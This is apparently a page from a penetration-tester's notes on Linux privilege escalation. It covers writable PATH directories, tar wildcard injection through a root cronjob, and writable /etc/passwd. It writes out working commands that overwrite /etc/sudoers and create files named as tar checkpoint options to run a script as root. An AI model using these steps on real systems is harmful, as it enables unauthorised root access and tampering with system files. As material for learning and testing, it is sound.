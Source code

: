 # Writeable Folders

We can elevate our privileges some times when we have write permissions in some specific directories.

> **Note**: With write permissions on the folder we can **create/delete/move files** but not modify them.

## On PATH variable

When we can write on folders such as `/usr/local/bin` `/usr/bin` or some others that are included on the PATH variable we can escalate our privileges by **modifying or creating a new binary** that will be executed as **root**.

### SSH port open

When we ssh a machine root executes `run-parts` binary so we add a malicious binary on the path. Look [Executing files with root ](https://mvc1009.gitbook.io/hackingnotes/privilege-escalation/linux-privesc#executing-files-with-root)to see which binary we can fit our needs.

# Abusing Wildcards (\*)

## Tar Argument Injection in root cronjob

Imagine you compromise a low-level user on a system and you figure out this command is running as root:

```bash
cd /var/log/mon && tar -zcf /tmp/mon.tar.gz *
```

We want to go with **sudoers** **file** as we are lazy and just sudo bash, so let's see....

```bash
echo 'echo "user ALL=(root) NOPASSWD: ALL" > /etc/sudoers' > privesc.sh
echo "" > "--checkpoint-action=exec=sh privesc.sh"
echo "" > --checkpoint=1
```

# Writeable /etc/passwd

The `/etc/passwd` file stores essential information, which is required during login. In other words, it stores user account information.

if we have a writable `/etc/passwd` file, we can write a new line entry allowing us to log in as our own root user. But first, we need to create a compliant password hash.

```bash
openssl passwd -1 -salt [username] [password]
openssl passwd [password]
```
